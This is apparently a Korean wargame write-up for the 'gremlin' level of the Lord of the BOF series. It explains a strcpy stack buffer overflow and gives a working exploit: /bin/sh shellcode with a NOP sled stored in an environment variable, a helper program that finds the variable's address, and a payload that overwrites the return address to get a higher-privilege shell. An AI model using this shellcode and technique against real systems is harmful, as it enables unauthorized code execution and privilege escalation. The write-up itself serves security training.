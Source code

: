 ============================================================================================================
[redhat-lob] (1) gremlin
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="dummy * 260 + envp address"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="envp address"];
        e [shape=box, label="dummy * 100 + shellcode"];
    }


|

Source code
============================================================================================================

.. code-block:: c

    int main(int argc, char *argv[])
    {
        char buffer[256];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (256byte)
    SFP     (4byte) 
    RET     (4byte)   
    argc    (4byte)   
    argv    (4byte)   
    envp    (4byte)   <
    ---------------
    HIGH    
    ===============

|

Buffer Overflow
============================================================================================================

.. code-block:: console
    
    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./gremlin `python -c "print 'a'*256"`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaa
    $ ./gremlin `python -c "print 'a'*260"`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaa

    Segmentation fault

|

exploit
============================================================================================================

환경 변수 상에 쉘코드 등록
------------------------------------------------------------------------------------------------------------

환경 변수에 쉘코드를 등록해두고, 입력값 마지막 리턴 주소를 환경 변수 주소로 변경하여 해당 쉘코드를 실행하도록 한다.

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`


|

환경 변수 주소 값 확인
------------------------------------------------------------------------------------------------------------

다음과 같이 소스코드를 작성하여 shellcode 환경 변수에 대한 주소 값을 획득.

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
        char *addr;
        addr = getenv(argv[1]);
        printf("address %p\n", addr);
        return 0;
    }

.. code-block:: console

    $ gcc -o get get.c

    get.c: In function `main':
    get.c:5: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode

    address 0xbffffc4c


|

RET를 환경 변수 주소로 덮어씌워 공격 진행
------------------------------------------------------------------------------------------------------------


.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (256byte) <- dummy
    SFP     (4byte)   <- dummy
    RET     (4byte)   <- envp address
    envp    (4byte)   <- nopsled shellcode
    ---------------
    HIGH    
    ===============

|

오버플로우시 RET를 환경 변수 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다.

.. code-block:: console

    $ ./gremlin `python -c 'print "\x90"*260+"\x4c\xfc\xff\xbf"'`
    
    bash$ whoami
    gremlin
    bash$ my-pass
    euid = 501
    hello bof world

